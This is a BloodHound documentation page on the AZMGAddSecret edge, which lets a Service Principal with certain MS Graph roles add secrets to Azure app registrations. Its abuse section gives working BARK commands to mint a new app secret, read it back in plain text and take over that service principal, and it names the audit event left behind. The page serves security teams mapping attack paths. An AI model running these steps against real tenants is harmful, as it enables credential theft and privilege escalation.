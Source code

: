 ---
title: AZMGAddSecret
description: "This edge is created during post-processing."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



 It is created against all Azure App Registrations and Service Principals when a Service Principal has one of the following MS Graph app roles:

* Application.ReadWrite.All
* RoleManagement.ReadWrite.Directory

You will not see this privilege when using just the Azure portal or any other Microsoft tooling. If you audit the roles and administrators affecting any particular Azure App or Service Principal, you will not see that the Service Principal can add secrets to the object, but it indeed can because of the parallel access management system used by MS Graph.

## Abuse Info

There are several ways to perform this abuse, depending on what sort of access you have to the credentials of the object that holds this privilege against the target object. If you have an interactive web browser session for the Azure portal, it is as simple as finding the target App in the portal and adding a new secret to the object using the “Certificates & secrets” tab. Service Principals do not have this tab in the Azure portal but you can add secrets to them with the MS Graph API. No matter what kind of control you have, you will be able to perform this abuse by using BARK’s New-EntraAppSecret or New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to add secrets to the target object. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s New-EntraAppSecret to add a new secret to the target application:

```bash
New-EntraAppSecret `
    -AppRegObjectID "d878..." `
    -Token $MGToken.access_token
```
The output will contain the plain-text secret you just created for the target app:

```bash
New-EntraAppSecret `
    -AppRegObjectID "d878..." `
    -Token $MGToken.access_token

Name                Value
----                -----
AppRegSecretValue   odg8Q~...
AppRegAppId         4d31...
AppRegObjectId      d878...
```

With this plain text secret, you can now acquire tokens as the service principal associated with the app. You can easily do this with BARK’s Get-MSGraphToken function:

```bash
$SPToken = Get-MSGraphToken `
    -ClientID "4d31..." `
    -ClientSecret "odg8Q~..." `
    -TenantName "contoso.onmicrosoft.com"
```
Now you can use this JWT to perform actions against any other MS Graph endpoint as the service principal, continuing your attack path with the privileges of that service principal.

## Opsec Considerations

When you create a new secret for an App or Service Principal, Azure creates an event called “Update application - Certificates and secrets management”. This event describes who added the secret to which application or service principal.

## References
* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
